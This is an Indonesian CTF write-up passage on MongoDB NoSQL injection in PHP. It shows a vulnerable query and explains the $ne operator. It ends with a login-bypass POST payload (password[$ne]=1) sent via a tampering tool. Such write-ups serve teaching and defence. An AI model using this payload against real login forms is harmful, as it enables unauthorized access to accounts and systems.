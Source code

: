 
[<img class="aligncenter size-full wp-image-264" src="http://abdilahrf.github.io/images/2014/10/sharif14_google_svg.png" alt="sharif14_google_svg" width="774" height="272" />](http://abdilahrf.github.io/images/2014/10/sharif14_google_svg.png)

&nbsp;

dan 😀 kita mengetahui sekarang bahwa backend untuk database mereka bukan pakai MySQL/PgSQL tapi pakai MongoDB

karena kita sudah tau menggunakan MongoDB coba cari cara untuk menyerang MongoDB seperti ini

[idontplaydarts.com &#8211; &#8220;Mongodb is vulnerable to SQL injection in PHP at least](https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/)

Di website itu kita belajar bagaimana MongoDB + Php bekerja

> <pre><code class="language-php" data-lang="php">&lt;span class="x">$collection-&gt;find(array(&lt;/span>
&lt;span class="x">    "username" =&gt; $_GET['username'],&lt;/span>
&lt;span class="x">    "passwd" =&gt; $_GET['passwd']&lt;/span>
&lt;span class="x">));

&lt;/span></code></pre>

Script di atas sama dengan

> <pre><code class="language-php" data-lang="php">&lt;span class="x">mysql_query("SELECT * FROM collection&lt;/span>
&lt;span class="x">    WHERE username=" . $_GET['username'] . ",&lt;/span>
&lt;span class="x">    AND passwd=" . $_GET['passwd'])&lt;/span></code></pre>

biasanya untuk bypass login form kita buat query selalu mengembalikan nilai true walaupun yang kita masukan username dan password salah seperti

> <pre><code class="language-php" data-lang="php">&lt;span class="x">$collection-&gt;find(array(&lt;/span>
&lt;span class="x">    "username" =&gt; "admin",&lt;/span>
&lt;span class="x">    "passwd" =&gt; array("$ne" =&gt; 1)&lt;/span>
&lt;span class="x">));&lt;/span></code></pre>

$ne adalah operator mongodb yang maksudnya != ( tidak sama dengan )
  
Sama Dengan

> <pre><code class="language-sql" data-lang="sql">&lt;span class="k">SELECT&lt;/span> &lt;span class="o">*&lt;/span> &lt;span class="k">FROM&lt;/span> &lt;span class="n">collection&lt;/span>
&lt;span class="k">WHERE&lt;/span> &lt;span class="n">username&lt;/span>&lt;span class="o">=&lt;/span>&lt;span class="ss">"admin"&lt;/span>&lt;span class="p">,&lt;/span>
&lt;span class="k">AND&lt;/span> &lt;span class="n">passwd&lt;/span>&lt;span class="o">!=&lt;/span>&lt;span class="mi">1&lt;/span></code></pre>

Dari 2 script di atas kita ketahui bahwa jika passwd != 1 maka nilai yang di kembalikan query (true) atau benar
  
karena password yang di input tidak benar . maka akan masuk ke dashboard admin

gunakan tamper data untuk mengirimkan post data

> <pre><code class="language-php" data-lang="php">&lt;span class="x">username=admin&password[$ne]=1&captcha=AXBYCZ
